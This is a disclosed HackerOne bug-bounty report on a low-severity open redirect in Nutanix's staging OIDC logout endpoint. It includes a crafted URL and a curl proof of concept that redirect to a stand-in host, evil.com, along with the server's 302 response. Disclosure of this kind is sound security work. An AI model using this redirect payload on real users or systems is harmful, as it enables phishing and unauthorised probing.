 # OPEN REDIRECT 

## Report Details
- **Report ID**: 1369806
- **URL**: https://hackerone.com/reports/1369806
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-10-13T20:56:40.666Z
- **Disclosed**: 2022-01-04T16:14:08.107Z

## Reporter
- **Username**: kauenavarro
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nutanix

## Vulnerability Information
Open Redirect Vulnerability
Hello , found open redirect in https://stage.test.dev-iam.xi.nutanix.com/api/iam/authn/v1/oidc/logout?post_logout_redirect_uri=.

Go to

https://stage.test.dev-iam.xi.nutanix.com/api/iam/authn/v1/oidc/logout?post_logout_redirect_uri=http://evil.com&id_token_hint=test

curl -I "https://stage.test.dev-iam.xi.nutanix.com/api/iam/authn/v1/oidc/logout?post_logout_redirect_uri=http://evil.com&id_token_hint=test"

HTTP/2 302 
content-type: text/html; charset=utf-8
location: http://evil.com
date: Wed, 13 Oct 2021 20:55:57 GMT
x-envoy-upstream-service-time: 2
server: envoy


##Reference

https://hackerone.com/reports/504751
https://portswigger.net/kb/issues/00500100_open-redirection-reflected

## Impact

An attacker can use this vulnerability to redirect users to other malicious websites, which can be used for phishing and similar attacks

## Attachments
No attachments
